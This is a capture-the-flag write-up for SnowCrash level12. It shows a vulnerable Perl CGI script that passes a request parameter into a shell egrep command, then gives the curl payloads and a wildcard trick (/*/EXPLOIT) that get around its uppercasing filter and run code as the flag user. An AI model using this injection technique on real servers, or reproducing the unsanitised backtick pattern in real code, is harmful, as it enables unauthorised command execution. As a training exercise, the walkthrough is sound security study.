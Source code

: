 # Level12

## Hint

Seems like a bash command is executed in the perl code, perhaps with a bit of tampering you could exploit that.

## Answer

Let's check our current directory:
```
level12@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level12.pl` file:
```perl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Alright seems like there will be a server on port 4646, also the program will accept two parameters: `x` and `y`. If we read a bit more we notice that a bash command is executed and that our first parameter `x` is executed in that bash command, however the `x` parameter is modified to uppercase and then stripped of its whitespace. So it won't be that easy to exploit it:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`getflag > /tmp/flag`'
.level12@SnowCrash:~$cat /tmp/flag'
cat: /tmp/flag: No such file or directory
```

Indeed the server actually executes \``GETFLAG>/TMP/FLAG`\` instead of what we typed, so it won't execute the command we wanted. However we can just create a file which will execute a bash script:
```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

Then instead of writing the path to that file *(it won't find our file because the path will be turn into uppercase characters)*, we can just use a `*` to match any path:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
